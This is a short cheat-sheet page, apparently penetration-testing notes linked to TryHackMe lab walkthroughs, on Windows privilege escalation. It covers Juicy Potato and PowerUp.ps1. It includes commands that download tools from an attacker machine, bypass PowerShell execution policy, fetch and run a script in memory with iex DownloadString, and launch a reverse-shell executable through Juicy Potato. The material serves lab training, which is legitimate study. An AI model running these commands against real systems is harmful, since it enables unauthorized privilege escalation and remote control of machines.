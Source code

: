 

## **Juicy Potato**

**Examples**

[retro.md](../../../../walkthroughs/tryhackme/retro.md "mention")

* Download Juicy Potato to your attack machine
* Upload Juicy Potato to the target (ex: via FTP, SMB, HTTP, etc.)
* Create a reverse shell and upload it to the target (ex: via FTP, SMB, HTTP, etc.) use Juicy Potato to execute your reverse shell

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```



## PowerUp.ps1

**Examples**

[#privilege-escalation](../../../../walkthroughs/tryhackme/steel-mountain.md#privilege-escalation "mention")[retro.md](../../../../walkthroughs/tryhackme/retro.md "mention")

**Setup**

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 
python2 -m SimpleHTTPServer 81
```

**Victim(cmd)**

```
certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1 
. .\PowerUp.ps1 
Invoke-AllChecks
```

**OR**

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1')
</strong></code></pre>



## Windows Exploit Suggester

**Examples**

